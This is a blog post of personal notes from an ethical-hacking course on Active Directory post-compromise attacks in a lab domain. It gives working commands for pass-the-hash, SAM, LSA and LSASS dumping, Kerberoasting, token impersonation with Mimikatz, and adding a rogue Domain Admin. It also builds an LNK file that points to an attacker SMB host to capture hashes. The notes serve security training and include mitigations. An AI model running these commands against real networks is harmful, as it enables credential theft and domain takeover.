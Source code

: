 ```yaml
---
title: "TCM Security - Practical Ethical Hacking"
published: 2025-01-22
description: 'My Notes From PEH Course'
image: './img/cover.png'
tags: [PEH, TCM, Course, Notes]
category: 'Course'
draft: false 
---
```


# Attack Active Directory - Post-Compromise Attacks
- talk about what we can do with the access we have

## Pass Attacks Overview

- What are this?
    - if we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

```bash
crackmapexec --help
crackmapexec smb --help
# Let's pass what we just cracked
crackmapexec smb <192.168.138.0/24,IP> -u <user,fcastle> -d MARVEL.local -p <pass>
# we can also use secretsdump!
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
# with a hash
secretsdump.py administrator:@192.168.138.138 -hashes <hash:hash>
# llmnr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump logins -> local admin hashes -> respray the network with local accounts
# Let's pass the hash with NTLMv1 not v2, we can relay with v2 but not pass the hash
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth
# We can even use CME to dump SAM
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --sam
# we can also enumerate shares
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --shares
# dump the lsa (local secruity authority)
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --lsa
# list all built-in modules
crackmapexec smb -L
# dump the lsass (its responsble for enforcing security policies in the system + its store credentiels)
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth -M lsassy
# The CME DB
cmedb
> hosts
> creds
> help # for commands

# crack ntlm hash
hashcat -m 1000 ntlm.txt /usr/share/wordlist/rockyou.txt
```

:::Note
Pwn3d! mean its local admin in this machine
::::

:::Tip
wdigest is a challenge/response protocol that was primarily used in Windows Server 2003 for LDAP and web-based authentication.
WDigest stores clear-text passwords in memory. Therefore, if an adversary who has access to an endpoint can use a tool like Mimikatz to get not just the hashes stored in memory, but the clear-text passwords as well. 
:::

### Pass Attack Mitigations
Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
    - Avoid re-using local admin password
    - Disable Guest adn Administrator accounts
    - Limit who is a local administrator (least privilage)
- Utilize strong passwords:
    - The longer the better (> 14 characters)
    - Avoid using common words
    - I like long sentences
- Privilage Access Management (PAM):
    - Check out/in sensitive accounts when needed
    - Automatically rotate passwords on check out and check
    - Limits pass attacks as hash/password is strong and constantly rotated

## Kerberoasting

![kerveroasting](./img/image.png)

```bash
# Step 1 : Get SPNs, Dump Hash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <ip of DC> -request
# Step 2 : Crack that hash
hashcat -m 13100 kerberoast.txt rockyou.txt
```

### Kerberoasting Mitigation

- Strong Passwords
- Least Privilege

## Tokens Impersonation Overview

- What are tokens?
    - Temporary keys that allow u access to a system/netwoek without having to provide credentials each time u access a file. Think cookies for computers
- Two Types :
    - **Delegate** : Created for logging into a machine or using Remote Desktop
    - **Impersonate** : "non-interactive" such as attaching a network drive or a domain logon script

Why this is bad?

```bash
# Pop a shell and load incognito
msfconsole
msf6> search psexec
# set option and payload to x64
meterpreter> getuid
meterpreter> load incognito
meterpreter> list_tokens -u
# Impersonate our domainuser
meterpreter> impersonate_token marvel\\fcastle
meterpreter> shell
C:\> whoami
# Attempt to dump hashes as non-Domain Admin -> Access Denied
c:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local
# what if a Domain Admin token was available?
# Identify Domain Administrator
meterpreter> list_tokens -u
meterpreter> impersonate_token MARVEL\\administrator
meterpreter> shell
C:\> whoami
# Run just fine
C:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local
# we can add a user
C:\> net user /add hawkeye Password1@ /domain
# then add that user to Domain admin
C:\> net group "Domain Admins" hawkeye /ADD /DOMAIN
# try secretsdump on it
```

### Tokens Impersonation Mitigation

- Limit user/group token creation permission
- Account tiering
- Local admin restriction

## LNK File Attack 
Placing a milicious file in a shared folder can lead to some great results!

```bash
PS C:\> $objShell = New-Object -ComObject WScript.shell
PS C:\> $lnk = $objShell.CreateShortcut("C:\test.lnk")
PS C:\> $lnk.TargetPath = "\\192.168.138.149\@test.png"
PS C:\> $lnk.WindowStyle = 1
PS C:\> $lnk.IconLocation = "%Windor%\system32\shell32.dll, 3"
PS C:\> $lnk.Description = "Test"
PS C:\> $lnk.HotKey = "Ctrl+Alt+T"
PS C:\> $lnk.Save()
# this generate a file, if the file triggered we can capture hashes through responder
```

## GPP or cPaswword Attacks and Mitigations

- Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released
- Patched in MS14-025, but it doesn't prevent previous uses
- STILL RELEVANT ON PENTESTS

![GPP](./img/image%20copy.png)

- Mitigation Strategies
    - PATCH! Fixed in KB2962486
    - In reality: delete the old GPP xml files stored in the SYSVOL

## Mimikatz Overview

- Tool used to view and steal credentials, generate kerberos tickets, adn leverage attacks
- Dump credential  Stored in memory
- Just a few attacks: Credential Dumping, Pass-The-Hash, Over-Pass-The-Hash, Pass-The-Ticket, Silver Ticket, and Golden Ticket

```bash
# Copy the Four x64 files add them to the windows
# exec mimikatz
C:\> mimikatz.exe
mimikatz \# privilege::debug
mimikatz \# sekurlsa::logonPasswords
```

## POST-Compromise Attack Strategy

- We have an accout, now what?
- Search the quick wins
    - Kerberoasting
    - Secretsdump
    - Pass the hash/ pass the password
- No quick win? Big deep!
    - Enumerate (Bloodhound, etc.)
    - where does your account have access?
    - Old vulnerbilities die hard
- Think outside the box